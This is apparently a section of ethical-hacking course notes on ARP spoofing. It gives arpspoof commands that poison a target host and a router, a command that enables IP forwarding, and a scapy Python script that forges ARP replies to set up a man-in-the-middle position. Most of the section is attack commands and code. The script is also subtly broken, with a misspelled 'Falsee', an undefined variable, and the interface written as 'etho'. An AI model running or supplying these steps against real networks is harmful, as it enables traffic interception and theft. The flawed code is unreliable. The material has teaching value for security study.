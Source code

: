 # Section 5 Writing an ARP Spoofer
In cybersecurity, ‘spoofing’ is when fraudsters pretend to be someone or something else to win a person’s trust. The motivation is usually to gain access to systems, steal data, steal money, or spread malware.

## How to run an ARP spoof attack using command ***arpspoof***:
The following command fools the target witb IP address 10.0.2.4.
> arpspoof -i etho  -t 10.0.2.4 10.0.2.1

The following command fools the router with IP address 10.0.2.1.
> arpspoof -i etho  -t 10.0.2.1 10.0.2.4

Before executing the commands above, run the following command to enable packet fowarding: 
> echo 1 > /proc/sys/net/ipv4/ip_forward

## Creating an ARP response using python.
Use the following python code to create an ARP responce
```python 
#!/usr/bin/env python3

# ---- Algorithm ----
# 1. Get mac address of target using target IP -- DONE
# 2. Create a response from the target host
# 3. Restore to normal. 
# 4. Optional: Create a command line function

import scapy.all as scapy
import argparse, time

def get_cmd_args():
   parser = argparse.ArgumentParser(
      prog="arp_spoof",
      description="Man in the middle",
      epilog="Thank you for using %(prog)s :)"
   )
   parser.add_argument("-t", "--target", help="Ip address of target host")
   parser.add_argument("-s", "--source", help="Ip address of router")
   args = parser.parse_args()
   return args

def get_mac(ip) -> str:
    # Create an ARP packet
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    layer2_packet = broadcast/arp_request

    #Send packet
    answered = scapy.srp(layer2_packet, timeout=1, verbose=0)[0]
    return answered[0][1].hwsrc
    
def spoof(target_ip, src_ip):
    target_mac = get_mac(target_ip)
    response_packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=src_ip)
    scapy.send(response_packet, verbose=Falsee)

def restore_arp_table(target_ip, src_ip):
    dst_mac = get_mac(target_ip)
    src_mac = get_mac(src_ip)
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=dst_mac, psrc=source_ip, hwsrc=src_mac)
    scapy.send(packet, verbose=False)

```